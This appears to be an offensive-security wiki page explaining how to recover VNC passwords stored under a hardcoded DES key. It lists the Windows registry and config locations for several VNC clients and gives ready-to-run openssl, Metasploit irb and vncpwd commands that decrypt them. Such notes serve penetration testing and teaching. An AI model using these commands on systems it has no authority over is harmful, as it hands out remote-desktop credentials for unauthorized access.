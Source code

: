 # VNC Config

## Theory

VNC clients uses a hardcoded DES key to store credentials. If you have access to a VNC config file you may be able to decrypt it as **the same key is used across multiple product lines**.

## Practice

{% tabs %}
{% tab title="Windows" %}
On Windows systems, you may find the VNC password in the following files.

| VNC Client   | Config File                                     | Password                                      |
| ------------ | ----------------------------------------------- | --------------------------------------------- |
| _RealVNC_    | HKEY\_LOCAL\_MACHINE\SOFTWARE\RealVNC\vncserver | Value: Password                               |
| _TightVNC_   | HKEY\_CURRENT\_USER\Software\TightVNC\Server    | HKLM\SOFTWARE\TightVNC\Server\ControlPassword |
| tightvnc.ini | vnc\_viewer.ini                                 | Value: Password or PasswordViewOnly           |
| _TigerVNC_   | HKEY\_LOCAL\_USER\Software\TigerVNC\WinVNC4     | Value: Password                               |
| _UltraVNC_   | C:\Program Files\UltraVNC\ultravnc.ini          | Value: passwd or passwd2                      |

Once you have extracted the hexadecimal-encoded password, we can decrypt it using only native Linux tools

```bash
echo -n <HEX_PASSWORD> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

Msfconsole can also be used to decrypt the password as follows (example with key 17526b06234e5807)

```bash
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```
{% endtab %}

{% tab title="UNIX-like" %}
On UNIX-type systems, the default password is stored in: `~/.vnc/passwd`

We may decrypt it using the [vncpwd](https://github.com/jeroennijhof/vncpwd) tool

```bash
vncpwd <vnc password file>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://notes.offsec-journey.com/enumeration/vnc" %}

{% embed url="https://github.com/frizb/PasswordDecrypts" %}
